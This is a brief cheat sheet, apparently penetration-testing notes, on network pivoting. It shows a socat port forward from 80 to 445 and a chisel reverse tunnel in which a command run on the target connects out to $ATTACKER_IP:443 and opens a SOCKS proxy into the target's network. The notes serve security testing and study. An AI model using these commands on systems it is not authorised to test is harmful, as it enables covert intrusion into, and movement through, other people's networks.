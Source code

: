 # port forwarding with socat
Forward port 80 to 445
```bash
socat TCP-LISTEN:80,fork TCP:127.0.0.1:445
```

# tunneling through chisel
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```bash
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```
